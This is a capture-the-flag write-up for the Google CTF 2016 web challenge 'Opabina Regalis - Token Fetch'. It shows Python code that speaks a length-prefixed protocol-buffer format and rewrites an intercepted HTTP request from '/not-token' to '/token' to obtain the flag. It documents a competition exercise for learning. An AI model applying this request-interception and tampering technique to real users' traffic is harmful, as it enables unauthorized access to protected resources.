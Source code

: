 # Google CTF 2016 : Opabina Regalis - Token Fetch

**Category:** Web
**Points:** 50
**Solves:** 79
**Description:**


>
>There are a variety of client side machines that have access to certain websites we'd like to access. We have a system in place, called "Opabina Regalis" where we can intercept and modify HTTP requests on the fly. Can you implement some attacks to gain access to those websites?
>
>Opabina Regalis makes use of [Protocol Buffers](https://developers.google.com/protocol-buffers/) to send a short snippet of the HTTP request for modification.
>
>Here's the protocol buffer definition used:
>
>
>     package main;
>
>     message Exchange {
>
>        enum VerbType {
>                GET = 0;
>                POST = 1;
>        }
>
>        message Header {
>                required string key = 1;
>                required string value = 2;
>        }
>
>        message Request {
>                required VerbType ver = 1; // GET
>                required string uri = 2; // /blah
>                repeated Header headers = 3; // Accept-Encoding: blah
>                optional bytes body = 4;
>        }
>
>        message Reply {
>                required int32 status = 1; // 200 or 302
>                repeated Header headers = 2;
>                optional bytes body = 3;
>        }
>
>        oneof type {
>                Request request = 1;
>                Reply reply = 2;
>        }
>     }
>

>The network protocol uses a 32-bit little endian integer representing the length of the marshalled protocol buffer, followed by the marshalled protocol buffer.
>
>Listening on port 1876 on ssl-added-and-removed-here.ctfcompetition.com
>


## Write-up

### Research
In order to solve this problem, I had to learn a little bit about Protocol buffer.  I started by reading the documentation that was linked in the challenge description.  It looks like Google supports a few different languages, so I decided to go with Python.  But first I had to install the protocol buffer compiler (protoc).


### Protocol Buffer Compiler Setup
Download the protocl buffer project
```
$ git clone https://github.com/google/protobuf.git
```


Compile and install (from [Google's Git Documentaion](https://github.com/google/protobuf/tree/master/src))
```
$ cd ./protobuf/
$ ./autogen.sh
$ ./configure
$ make
$ make check
$ sudo make install
$ sudo ldconfig # refresh shared library cache.
```

Google has provided the contents of our message file in the challenge description, simply save it as main.proto.

Now that the protocol buffer compiler has been installed and we have our main.proto file created, it is time to run the compiler.
```
$ protoc -I=./ --python_out=./ main.proto
```

Wow, I am finally ready to start writing code.  I can create an empty Exchange message protocol buffer with the following snippet:
```python
import main_pb2
msg = main_pb2.Exchange()
```

### Client Code
Once I verified that I could import main_pb2, I setup the TCP/SSL socket as such:
```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
ws = ssl.wrap_socket(s, ssl_version=ssl.PROTOCOL_SSLv23)
```

This is the code I wrote for reading from the socket, careful to obey the requirement for 32bit little-endian integers.
```python
def rx_msg(sock):
  data = sock.recv(4)
  
  #Unpack the message length
  msg_len = struct.unpack('<I', data)[0]
  data = sock.recv(msg_len)
  
  #Read the protocol buffer message
  msg = main_pb2.Exchange()
  msg.ParseFromString(data)
```

And the code for writing to the socket.
```python
def tx_msg(sock, msg):
  data = msg.SerializeToString()
  p = struct.pack('<I', len(data)) + data
  sock.send(p)
```

And add some simple code to print the request so that I can easily see what is happening.
```python
def print_req(req):
  print('VerbType: ' + repr(req.ver))
  print('URI: ' + repr(req.uri))
  print('Headers:')
  for i in req.headers:
  	print(repr(i))
  print('Body: ' + repr(req.body))
```

### Exploit
I should be all set, let's connect to the socket and see if I get a request.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"
```

Hmm...  Looks like someone is trying to connect to '/not-token'.  What if I create a new request for '/token' instead.
```python
new_dat = main_pb2.Exchange()
new_dat.request.ver = main_pb2.Exchange.GET
new_dat.request.uri = u'/token'
new_dat.request.body = ''
tx_msg(ws, new_dat)
```

Now let's see what the whole script output looks like.
```
VerbType: 0
URI: u'/not-token'
Headers:
key: "User-Agent"
value: "opabina-regalis.go"

Body: ''
Status: 200
Headers:
key: "Server"
value: "opabina-regalis.go"

Body: 'CTF{WhyDidTheTomatoBlush...ItSawTheSaladDressing}'
```

[Click here for entire Python implementation](https://github.com/b0tchsec/CTF-Fanny-Pack/blob/master/solutions/google_2016/OpabinaRegalis_TokenFetch/client.py)
